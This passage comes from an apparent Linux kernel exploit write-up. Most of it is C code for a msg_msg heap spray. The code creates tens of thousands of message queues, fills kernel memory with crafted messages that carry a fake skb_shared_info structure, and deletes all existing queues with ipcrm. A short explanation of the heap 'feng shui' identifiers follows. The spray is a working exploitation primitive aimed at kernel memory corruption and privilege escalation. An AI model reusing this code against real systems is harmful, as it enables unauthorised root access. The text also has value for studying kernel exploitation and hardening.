 ```
#define NUM_QUEUE_MAX 32000
#define NUM_QUEUE_RESV 100 // reserved for exploitation
#define NUM_QUEUE (NUM_QUEUE_MAX - NUM_QUEUE_RESV)
#define NUM_MSG 204 // calculated from 16384 (max bytes in queue) / MSG_SIZE
#define CHUNK_SIZE 0x80
#define MSG_SIZE (CHUNK_SIZE - 0x30)

// Spray as many msg_msgs as possible to full the kernel heap memory
// For 4 GB RAM system, we spray NUM_QUEUE * NUM_MSG * CHUNK_SIZE = 794 MB msg_msg
// It's enough for us to analyze and make our choose kernel address become a msg_msg.
int setup_msg()
{
	msqid = malloc(sizeof(*msqid) * 40000);
	hackq = malloc(sizeof(*msqid) * NUM_QUEUE_RESV);
	printf("setup msg start..\n");
	memset(&msg.mtext[0], 0, 0x2000);
	msg.mtype = 1;
	system("ipcrm --all=msg");
	for (int i = 0; i < NUM_QUEUE; i++)
	{
		msqid[i] = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
		SYSCHK(msqid[i]);
	}
	for (int i = 0; i < NUM_QUEUE_RESV; i++)
	{
		hackq[i] = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
		SYSCHK(hackq[i]);
	}
	// Fake `struct skb_shared_info` in the data of msg_msg
	// We will choose a specific kernel heap address as `skb_shinfo(skb)`
	msg.mtext[0x44 - 0x30] = '\x10'; // nr_frags
	for (int j = 0; j < NUM_MSG; j++)
	{
		for (int i = 0; i < NUM_QUEUE; i++)
		{
			*(size_t *)&msg.mtext[0] = i; // queue identifier stored here
			msg.mtype = j + 1; // msg index identifier
			SYSCHK(msgsnd(msqid[i], &msg, MSG_SIZE, IPC_NOWAIT));
		}
	}
	printf("setup msg done\n");
}
```
We spray in some defined amount of message queue and some defined amount msg_msg for each allocated message queue.
For every message we add queue identifier and message identifier that will useful in exploitation, for example 
to check corrupted message queue and perform msg_msg "feng shui" in accurate and stable.
Queue identifier means queue the message is in. Msg identifier means what order the msg is in the queue.
